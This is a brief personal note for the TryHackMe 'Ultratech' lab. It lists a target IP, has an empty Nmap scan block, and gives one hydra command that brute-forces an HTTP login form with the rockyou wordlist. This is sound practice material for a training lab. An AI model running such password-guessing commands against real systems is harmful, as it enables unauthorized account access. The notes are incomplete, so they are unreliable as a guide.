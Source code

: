 #   Tryhackme - Ultratech

##  IP=10.10.250.19

##  Steps:
1.  Nmap scan:
```bash


```

hydra -l john -P /usr/share/wordlists/rockyou.txt 10.10.250.19:8081 http-post-form "//auth?login=john&password=^PASS^:Invalid credentials"